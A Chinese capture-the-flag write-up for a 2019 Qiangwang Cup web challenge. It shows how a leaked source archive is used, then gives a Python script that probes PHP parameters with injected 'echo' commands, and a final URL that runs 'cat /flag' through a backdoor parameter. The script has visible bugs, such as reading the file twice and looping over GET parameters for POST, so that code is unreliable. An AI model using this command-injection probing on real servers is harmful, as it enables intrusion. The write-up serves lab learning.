 # 强网杯 2019

## Web

### 高明的黑客

通过页面提示

```html
我也是很佩服你们公司的开发，特地备份了网站源码到www.tar.gz以供大家观赏
```

可以通过访问 `http://c6a46daa-1ec6-4adc-ac66-258cd27b688c.node4.buuoj.cn:81/www.tar.gz` 获取到网站源码，可以看到有 3000 多个 PHP 文件，随便点进去可以发现十分的乱（悲），通过代码审计可以发现存在注入漏洞，通过编写 Python 收集一个页面中存在的所有 $\_GET 和 $\_POST 并传入一个带有特征的输出进行验证，最后就可以撞出来了（就是特别慢，慢死了） 。

```python
import re
import os
import requests

src_path = '../../phpstudy_pro/WWW/localhost/src'
file_list = os.listdir(src_path)

for file in file_list:
    f = open(src_path + '/' + file)
    GET_Array = re.findall('\$_GET\[\'(.*?)\'\]', f.read())
    POST_Array = re.findall('\$_POST\[\'(.*?)\'\]', f.read())

    f.close()
    for param in GET_Array:
        url = 'http://127.0.0.1/src/' + file
        res = requests.get(url, {
            param: 'echo K1sARa'
        })
        if 'K1sARa' in res.text:
            print(file, param, 'YES')
            exit(1)
        else:
            print(file, param, 'NO')

    for param in GET_Array:
        url = 'http://127.0.0.1/src/' + file
        res = requests.post(url, data={
            param: 'echo K1sARa'
        })
        if 'K1sARa' in res.text:
            print(file, param, 'YES')
            exit(1)
        else:
            print(file, param, 'NO')
```

运行以上代码后可以得到结果 `xk0SzyKwfzw.php Efa5BVG YES` ，通过访问

```url
http://c6a46daa-1ec6-4adc-ac66-258cd27b688c.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

就可以得到 flag 了。
